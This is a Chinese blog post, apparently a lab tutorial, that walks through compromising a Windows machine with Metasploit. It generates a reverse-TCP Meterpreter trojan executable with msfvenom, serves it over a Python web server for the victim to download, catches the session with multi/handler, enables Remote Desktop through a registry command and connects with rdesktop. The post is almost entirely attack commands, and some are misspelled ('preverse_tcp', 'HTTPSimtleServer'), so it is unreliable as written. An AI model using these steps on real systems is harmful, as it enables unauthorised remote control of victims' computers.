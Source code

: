 ```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-17
author:     张云
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。

msfconsole

2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。

msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe

3.接下来开启一个简单的web服务。

python HTTPSimtleServer 8080.

4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，

5.加载exp。

use exploit/multi/handler

6.设置payload。

set payload windows/meterpreter/preverse_tcp

set lhost '你的ip'

set lport '你的端口'

show options ‘这里查看参数是否都输入对了’。

run‘运行’

7.等待目标上线。

shell 控制目标终端。

8.输入以下命令打开对方3389远程桌面端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

9.利用kali下的rdesktop，链接对方桌面。

rdesktop ‘目标ip’。

10.完成。

